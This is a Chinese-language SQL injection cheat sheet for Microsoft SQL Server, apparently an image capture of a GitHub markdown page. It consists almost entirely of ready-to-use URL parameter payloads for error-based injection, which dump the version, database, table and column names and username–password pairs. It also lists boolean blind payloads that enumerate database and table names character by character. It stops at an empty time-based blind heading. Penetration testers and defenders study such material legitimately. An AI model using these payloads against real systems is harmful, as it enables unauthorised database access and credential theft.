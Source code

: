 ### **SQL_Server报错注入**

```mssql
# 测试注入点时,故意构造错误的MySQL语句,如果页面回显的错误信息为数据库报出来的错误,即可使用报错注入
# 查看版本
?id=0' and 1=(convert(int,@@version)) --
# 查看所有库
?id=0' and 1=(select top 1 name from master..sysdatabases where name not in (select top 1 name from master..sysdatabases)) --
# 查看表
?id=0' and 1=(select top 1 name from 库名..sysobjects where xtype='U' and name not in (select top 0 name from 库名..sysobjects where xtype='U')) --
# 查看字段
?id=0' and 1=(select top 1 name from 库名.dbo.syscolumns where id =object_id ('表名') and name not in (select top 0 name from 库名.dbo.syscolumns where id =object_id ('表名'))) --
# 查看表内容
?id=0' and 1=cast((select substring((select username,': ', password,'~' from 表名 for xml path('')),1,500))as int)--

# 其他语法 爆当前库
?id=1' and 1=convert(int,db_name()) --
?id=1' and 1=cast(db_name() as int) --
# 爆当前库表
?id=1' and 1=cast((select quotename(name) from sysobjects where xtype=char(85) for xml path(''))as int) --
# 爆当前表字段
?id=1' and 1=cast((select quotename(name) from syscolumns where id=(select id from sysobjects where name='users' and xtype='U') for xml path(''))as int) --
```

### **SQL_Server布尔盲注**

```mssql
# 判断注入
?id=0' and 1=0 --
?id=0' and 1=1 --
# 判断库数量
?id=0' and 1=(select count(*) from master.dbo.sysdatabases where dbid=7) --
# 判断库长度
?id=0' and 1=(select count(*) from master.dbo.sysdatabases where dbid=1 and len(name)=6)--
# 爆库
?id=0' and (select top 1 ascii(substring(name,1,1)) from sys.sysdatabases where name not in (select top 0 name from sys.sysdatabases))=109--
# 判断指定库中表的数量
?id=0' and (select count(*) from 库名.dbo.sysobjects where name in (select top 1 name from 库名.dbo.sysobjects) and len (name)=9) --
# 爆表 ps:substring(name,1-n,1) 表名第一个字母
?id=0' and (select top 1 ascii(substring(name,1-n,1)) from 库名..sysobjects where name not in (select top 0 name from 库名..sysobjects))=115--
```

### **SQL_Server时间盲注**
